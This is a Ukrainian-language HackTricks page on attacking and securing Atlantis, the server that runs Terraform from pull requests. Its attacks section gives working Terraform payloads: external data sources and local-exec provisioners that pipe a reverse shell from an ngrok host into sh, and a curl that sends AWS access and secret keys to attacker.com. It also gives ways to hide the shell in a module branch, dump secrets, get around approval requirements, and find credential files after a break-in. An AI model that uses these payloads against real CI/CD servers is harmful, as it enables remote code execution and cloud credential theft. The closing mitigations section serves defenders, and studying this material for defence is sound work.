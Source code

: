 # Безпека Atlantis

<details>

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## Основна інформація

Атлантіс допомагає вам запускати terraform з Pull Requests з вашого git сервера.

![](<../.gitbook/assets/image (161).png>)

## Локальна лабораторія

1. Перейдіть на сторінку **релізів атлантісу** за посиланням [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) та **завантажте** той, який вам підходить.
2. Створіть **особистий токен** (з доступом до репозиторіїв) вашого **github** користувача.
3. Виконайте `./atlantis testdrive` і він створить **демо-репозиторій**, який ви можете використовувати для **спілкування з атлантісом**.
1. Ви можете отримати доступ до веб-сторінки за адресою 127.0.0.1:4141

## Доступ до Atlantis

### Облікові дані Git сервера

**Атлантіс** підтримує кілька git хостів, таких як **Github**, **Gitlab**, **Bitbucket** та **Azure DevOps**.\
Однак, для доступу до репозиторіїв на цих платформах та виконання дій, йому потрібно мати деякий **привілейований доступ**, наданий їм (принаймні права на запис).\
[**Документація**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) рекомендує створити користувача на цих платформах спеціально для Атлантісу, але деякі люди можуть використовувати особисті облікові записи.

{% hint style="warning" %}
У будь-якому випадку, з точки зору атакувальника, **акаунт Атлантісу** буде дуже **цікавим для компрометації**.
{% endhint %}

### Вебхуки

Атлантіс використовує необов'язково [**секрети вебхуків**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret), щоб перевірити, що **вебхуки**, які він отримує від вашого Git хоста, є **легітимними**.

Один з способів підтвердити це - **дозволити запити лише від IP-адрес** вашого Git хоста, але простіше використовувати Секрет вебхука.

Зверніть увагу, що, якщо ви не використовуєте приватний github або bitbucket сервер, вам потрібно буде викласти кінцеві точки вебхуків в Інтернет.

{% hint style="warning" %}
Атлантіс буде **викладати вебхуки**, щоб git сервер міг надсилати йому інформацію. З точки зору атакувальника буде цікаво знати, **чи можна надсилати йому повідомлення**.
{% endhint %}

### Облікові дані постачальника <a href="#provider-credentials" id="provider-credentials"></a>

[З документації:](https://www.runatlantis.io/docs/provider-credentials.html)

Атлантіс запускає Terraform, просто **виконуючи команди `terraform plan` та `apply`** на сервері, **на якому розміщений Атлантіс**. Точно так само, як при локальному запуску Terraform, Атлантіс потребує облікових даних для вашого конкретного постачальника.

Це залежить від вас, як ви [надаєте облікові дані](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) для вашого конкретного постачальника Атлантісу:

* Шаблон Helm Атлантісу та [Модуль AWS Fargate](https://www.runatlantis.io/docs/deployment.html#aws-fargate) мають власні механізми для облікових даних постачальника. Прочитайте їх документацію.
* Якщо ви запускаєте Атлантіс у хмарі, то у багатьох хмарах є способи надання доступу до API хмари додаткам, які на них працюють, наприклад:
* [Ролі EC2 AWS](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Шукайте "EC2 Role")
* [Службові облікові записи екземплярів GCE](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Багато користувачів встановлюють змінні середовища, наприклад, `AWS_ACCESS_KEY`, де працює Атлантіс.
* Інші створюють необхідні файли конфігурації, наприклад, `~/.aws/credentials`, де працює Атлантіс.
* Використовуйте [Постачальник HashiCorp Vault](https://registry.terraform.io/providers/hashicorp/vault/latest/docs), щоб отримати облікові дані постачальника.

{% hint style="warning" %}
**Контейнер**, де **працює Атлантіс**, велика ймовірність, що **містить привілейовані облікові дані** для постачальників (AWS, GCP, Github...), якими управляє Атлантіс через Terraform.
{% endhint %}

### Веб-сторінка

За замовчуванням Атлантіс буде запускати **веб-сторінку на порту 4141 на локальному хості**. Ця сторінка просто дозволяє вам увімкнути/вимкнути застосування атлантісу, перевірити статус плану репозиторіїв та розблокувати їх (це не дозволяє змінювати речі, тому воно не дуже корисне).

Ймовірно, ви не знайдете його викладеним в Інтернет, але, здається, за замовчуванням **не потрібні облікові дані** для доступу до нього (і якщо вони потрібні, `atlantis`:`atlantis` - **за замовчуванням**).

## Налаштування сервера

Налаштування для `atlantis server` можна вказати за допомогою прапорців командного рядка, змінних середовища, файлу конфігурації або комбінації трьох.

* Ви можете знайти [**тут список прапорців**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration), які підтримує сервер Атлантіс
* Ви можете знайти [**тут, як перетворити параметр конфігурації в змінну середовища**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Значення **вибираються в такому порядку**:

1. Прапорці
2. Змінні середовища
3. Файл конфігурації

{% hint style="warning" %}
Зверніть увагу, що в налаштуваннях ви можете знайти цікаві значення, такі як **токени та паролі**.
{% endhint %}

### Налаштування репозиторіїв

Деякі налаштування впливають на **тим, як керуються репозиторії**. Однак можливо, що **кожен репозиторій вимагає різних налаштувань**, тому є способи вказати кожен репозиторій. Це порядок пріоритету:

1. Файл [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) репозиторію. Цей файл може бути використаний для вказання того, як атлантіс повинен обробляти репозиторій. Однак за замовчуванням деякі ключі не можуть бути вказані тут без деяких прапорців, що дозволяють це.
1. Ймовірно, потрібно дозволити за допомогою прапорців, таких як `allowed_overrides` або `allow_custom_workflows`
2. [**Конфігурація на стороні сервера**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Ви можете передати її за допомогою прапорця `--repo-config` і це yaml, що налаштовує нові параметри для кожного репозиторію (підтримуються регулярні вирази)
3. **За замовчуванням** значення
#### Захист PR

Atlantis дозволяє вказати, чи хочете ви, щоб **PR** був **`затверджений`** кимось іншим (навіть якщо це не встановлено в захисті гілки) і/або був **`злитий`** (пройшли захисти гілки) **перед запуском apply**. З точки зору безпеки рекомендується встановити обидві опції.

У випадку, якщо `allowed_overrides` встановлено на True, ці налаштування можуть бути **перезаписані на кожному проекті за допомогою файлу `/atlantis.yml`**.

#### Сценарії

Конфігурація репозиторію може **вказувати сценарії**, які виконуються [**перед**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_перед хуками робочого процесу_) та [**після**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_після хуків робочого процесу_) **виконання робочого процесу**.

Немає жодної опції, що дозволяє **вказати** ці сценарії в **файлі конфігурації репозиторію `/atlantis.yml`**.

#### Робочий процес

У конфігурації репозиторію (конфігурація на стороні сервера) можна [**вказати новий типовий робочий процес**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), або [**створити нові користувацькі робочі процеси**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Також можна **вказати**, які **репозиторії** можуть **отримати доступ** до **створених нових**.

Потім можна дозволити файлу **atlantis.yaml** кожного репозиторію **вказати робочий процес, який слід використовувати**.

{% hint style="danger" %}
Якщо прапорець [**конфігурації на стороні сервера**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` встановлено на **True**, робочі процеси можуть бути **вказані** в файлі **`atlantis.yaml`** кожного репозиторію. Також можливо, що **`allowed_overrides`** також вказує також **`workflow`** для **перевизначення робочого процесу**, який буде використовуватися.\
Це фактично надасть **RCE в сервері Atlantis будь-якому користувачеві, який може отримати доступ до цього репозиторію**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Перевірка політики Conftest

Атлантіс підтримує запуск **серверної** [**conftest**](https://www.conftest.dev/) **політики** проти вихідного плану. Загальні випадки використання цього кроку включають:

* Відмова від використання списку модулів
* Перевірка атрибутів ресурсу під час створення
* Виявлення ненавмисного видалення ресурсів
* Запобігання ризикам безпеки (тобто викладання захищених портів у публічний доступ)

Ви можете перевірити, як це налаштувати в [**документації**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Команди Атлантіс

[**У документації**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) ви можете знайти параметри, які можна використовувати для запуску Атлантісу:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Атаки

{% hint style="warning" %}
Якщо під час експлуатації ви знаходите цю **помилку**: `Error: Error acquiring the state lock`

Ви можете виправити це, виконавши:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### План RCE Atlantis - Зміна конфігурації в новому PR

Якщо у вас є права на запис у репозиторій, ви зможете створити нову гілку на ньому та згенерувати PR. Якщо ви можете **виконати `atlantis plan`** (або це виконується автоматично), **ви зможете виконати RCE всередині сервера Atlantis**.

Ви можете це зробити, зробивши [**Atlantis завантажити зовнішнє джерело даних**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Просто вставте пейлоад, подібний до наведеного нижче, у файл `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Прихована атака

Ви можете виконати цю атаку ще більш **приховано**, дотримуючись цих рекомендацій:

* Замість того, щоб додавати обернену оболонку безпосередньо до файлу terraform, ви можете **завантажити зовнішній ресурс**, який містить обернену оболонку:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Можна знайти код оболонки rev за посиланням [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* У зовнішньому ресурсі використовуйте функцію **ref**, щоб приховати **код оболонки terraform rev у гілці** всередині репозиторію, щось на зразок: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Замість** створення **PR до master** для запуску Atlantis, **створіть 2 гілки** (test1 та test2) і створіть **PR з однієї в іншу**. Після завершення атаки, просто **видаліть PR та гілки**.

### Atlantis plan Secrets Dump

Ви можете **витягти секрети, використовуючи terraform**, запустивши `atlantis plan` (`terraform plan`), вставивши щось на зразок цього у файл terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis застосовує RCE - Зміна конфігурації в новому PR

Якщо у вас є права на запис у сховище, ви зможете створити нову гілку на ньому та згенерувати PR. Якщо ви можете **виконати `atlantis apply`, ви зможете виконати RCE всередині сервера Atlantis**.

Проте, зазвичай вам потрібно обійти деякі захисти:

* **Mergeable**: Якщо цей захист встановлений в Atlantis, ви можете запустити **`atlantis apply` лише якщо PR є mergeable** (що означає, що захист гілки потрібно обійти).
* Перевірте можливі [**обхіди захисту гілок**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
* **Approved**: Якщо цей захист встановлений в Atlantis, **інший користувач повинен схвалити PR** перед тим, як ви зможете запустити `atlantis apply`
* За замовчуванням ви можете зловживати [**токеном Gitbot для обходу цього захисту**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Запуск **`terraform apply` на шкідливий файл Terraform з** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Вам лише потрібно переконатися, що деякий навантаження, подібне наступному, завершується у файлі `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Виконайте **рекомендації з попередньої техніки**, щоб виконати цей атаку в **більш прихований спосіб**.

### Впровадження параметрів Terraform

Під час виконання `atlantis plan` або `atlantis apply` terraform запускається під-потребу, ви можете передавати команди до terraform з atlantis, прокоментувавши щось на зразок:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Щось, що можна передати, це змінні середовища, які можуть бути корисні для обходу деяких захистів. Перевірте змінні середовища Terraform за посиланням [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Користувацький робочий процес

Виконання **зловмисних користувацьких команд збірки**, вказаних у файлі `atlantis.yaml`. Atlantis використовує файл `atlantis.yaml` з гілки запиту на вилучення, **а не** з `master`.\
Ця можливість була згадана в попередньому розділі:

{% hint style="danger" %}
Якщо прапорець [**конфігурації з боку сервера**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` встановлено на **True**, робочі процеси можуть бути **вказані** у файлі **`atlantis.yaml`** кожного репозиторію. Також, можливо, потрібно, щоб **`allowed_overrides`** також вказував **`workflow`**, щоб **перевизначити робочий процес**, який буде використовуватися.

Це фактично дозволить **RCE на сервері Atlantis будь-якому користувачеві, який може отримати доступ до цього репозиторію**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Обхід захисту плану/застосування

Якщо прапорець [**конфігурації зі сторони сервера**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _має_ налаштований `apply_requirements`, то для репозиторію можливо **змінити захист плану/застосування для їх обходу**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Викрадення PR

Якщо хтось залишає коментарі **`atlantis plan/apply` на ваші дійсні запити на злиття,** це призведе до запуску terraform, коли ви цього не хочете.

Більше того, якщо ви не налаштували **захист гілки** для запиту на **переоцінку** кожного PR при **новому коміті**, хтось може **написати зловмисні конфігурації** (перевірте попередні сценарії) в конфігурації terraform, запустити `atlantis plan/apply` і отримати RCE.

Ось **налаштування** в GitHub для захисту гілок:

![](<../.gitbook/assets/image (216).png>)

### Секрет веб-гачка

Якщо вам вдалося **викрасти секрет веб-гачка**, який використовується, або якщо **не використовується жоден секрет веб-гачка**, ви можете **викликати веб-гачок Atlantis** і **викликати команди атлантісу** безпосередньо.

### Bitbucket

Bitbucket Cloud **не підтримує секрети веб-гачків**. Це може дозволити зловмисникам **підробляти запити від Bitbucket**. Переконайтеся, що ви дозволяєте лише IP-адреси Bitbucket.

* Це означає, що **зловмисник** може робити **фальшиві запити до Atlantis**, які виглядають так, ніби вони приходять з Bitbucket.
* Якщо ви вказуєте `--repo-allowlist`, то вони можуть лише підробляти запити, що стосуються цих репозиторіїв, тому найбільша шкода, яку вони можуть завдати, полягає в плануванні/застосуванні на власних репозиторіях.
* Щоб цього уникнути, дозвольте [IP-адреси Bitbucket](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (див. IP-адреси IPv4 для вихідного з'єднання).

## Післяексплуатаційний період

Якщо вам вдалося отримати доступ до сервера або хоча б ви отримали LFI, є кілька цікавих речей, які варто спробувати прочитати:

* `/home/atlantis/.git-credentials` Містить облікові дані доступу до vcs
* `/atlantis-data/atlantis.db` Містить облікові дані доступу до vcs з більшою інформацією
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Файл стану Terraform
* Приклад: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Змінні середовища
* `/proc/[2-20]/cmdline` Cmd line `atlantis server` (може містити чутливі дані)

## Заходи запобігання

### Не Використовуйте На Публічних Репозиторіях <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Оскільки будь-хто може коментувати на публічні запити на злиття, навіть з усіма доступними засобами безпеки, все ще небезпечно запускати Atlantis на публічних репозиторіях без належної конфігурації параметрів безпеки.

### Не Використовуйте `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Якщо ви працюєте з публічним репозиторієм (що не рекомендується, див. вище), ви не повинні встановлювати `--allow-fork-prs` (за замовчуванням вимкнено), оскільки будь-хто може відкрити запит на злиття зі свого форку до вашого репозиторію.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Для роботи Atlantis вам потрібно вказати список репозиторіїв, з яких він буде приймати веб-гачки через прапорець `--repo-allowlist`. Наприклад:

* Конкретні репозиторії: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Ваша організація в цілому: `--repo-allowlist=github.com/runatlantis/*`
* Кожен репозиторій у вашому GitHub Enterprise: `--repo-allowlist=github.yourcompany.com/*`
* Усі репозиторії: `--repo-allowlist=*`. Корисно, коли ви в захищеній мережі, але небезпечно без встановлення секрета веб-гачка.

Цей прапорець гарантує, що ваша установка Atlantis не використовується з репозиторіями, які ви не контролюєте. Див. `atlantis server --help` для отримання додаткової інформації.

### Захист Планування Terraform <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Якщо включення зловмисників, які подають запити на злиття зі зловмисним кодом Terraform, є в вашій моделі загроз, вам слід усвідомити, що схвалення `terraform apply` недостатнє. Є можливість виконати зловмисний код в `terraform plan`, використовуючи [`external` джерело даних](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) або вказавши зловмисного провайдера. Цей код може витягти ваші облікові дані.

Для запобігання цьому ви можете:

1. Вбудувати провайдерів у образ або хост Atlantis та заборонити вихід у виробництво.
2. Реалізувати протокол реєстрації провайдерів внутрішньо та заборонити публічний вихід, таким чином ви контролюєте, хто має право на запис у реєстр.
3. Змініть [конфігурацію репозиторію на стороні сервера](https://www.runatlantis.io/docs/server-side-repo-config.html) для перевірки використання заборонених провайдерів або джерел даних або запитів на злиття від не дозволених користувачів. Ви також можете додати додаткову перевірку на цьому етапі, наприклад, вимагаючи "підтвердження" на запит на злиття перед тим, як дозволити продовження `plan`. Тут може бути корисний Conftest.

### Секрети Веб-Гачків <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis повинен працювати з встановленими секретами веб-гачків через змінні середовища `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Навіть з встановленим прапорцем `--repo-allowlist`, без секрета веб-гачка зловмисники можуть робити запити до Atlantis, видаючи себе за репозиторій, який є в списку дозволених. Секрети веб-гачків забезпечують, що запити веб-гачків дійсно надходять від вашого постачальника VCS (GitHub або GitLab).

Якщо ви використовуєте Azure DevOps, замість секретів веб-гачків додайте базове ім'я користувача та пароль.

### Базова Аутентифікація Azure DevOps <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps підтримує відправку заголовка базової аутентифікації у всіх подіях веб-гачків. Це вимагає використання HTTPS-URL для вашого місцезнаходження веб-гачка.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Якщо ви використовуєте секрети веб-гачків, але ваш трафік йде через HTTP, то секрети веб-гачків можуть бути вкрадені. Увімкніть SSL/HTTPS за допомогою прапорців `--ssl-cert-file` та `--ssl-key-file`.

### Увімкнення Аутентифікації на Веб-Сервері Atlantis <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Дуже рекомендується увімкнути аутентифікацію у веб-сервісі. Увімкніть BasicAuth, використовуючи прапорець `--web-basic-auth=true` та налаштуйте ім'я користувача та пароль за допомогою прапорців `--web-username=yourUsername` та `--web-password=yourPassword`.

Ви також можете передавати це як змінні середовища `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` та `ATLANTIS_WEB_PASSWORD=yourPassword`.

## Посилання

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або групи **telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
{% endhint %}
